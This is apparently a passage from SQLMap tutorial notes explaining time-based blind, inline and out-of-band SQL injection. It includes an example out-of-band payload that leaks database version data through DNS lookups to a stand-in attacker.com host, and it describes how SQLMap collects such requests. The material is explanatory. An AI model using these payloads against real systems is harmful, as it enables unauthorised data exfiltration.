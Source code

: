 The principle of `Time-based blind SQL Injection` is similar to the `Boolean-based blind SQL Injection`, but here the response time is used as the source for the differentiation between `TRUE` or `FALSE`.

- `TRUE` response is generally characterized by the noticeable difference in the response time compared to the regular server response
    
- `FALSE` response should result in a response time indistinguishable from regular response times

`Time-based blind SQL Injection` is considerably slower than the boolean-based blind SQLi, since queries resulting in `TRUE` would delay the server response. This SQLi type is used in cases where `Boolean-based blind SQL Injection` is not applicable. For example, in case the vulnerable SQL statement is a non-query (e.g. `INSERT`, `UPDATE` or `DELETE`), executed as part of the auxiliary functionality without any effect to the page rendering process, time-based SQLi is used out of the necessity, as `Boolean-based blind SQL Injection` would not really work in this case.

---

## Inline queries

Example of `Inline Queries`:

```sql
SELECT (SELECT @@version) from
```

This type of injection embedded a query within the original query. Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.

---

## Out-of-band SQL Injection

Example of `Out-of-band SQL Injection`:

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

This is considered one of the most advanced types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi). SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.

By running the SQLMap on the DNS server for the domain under control (e.g. `.attacker.com`), SQLMap can perform the attack by forcing the server to request non-existent subdomains (e.g. `foo.attacker.com`), where `foo` would be the SQL response we want to receive. SQLMap can then collect these erroring DNS requests and collect the `foo` part, to form the entire SQL response.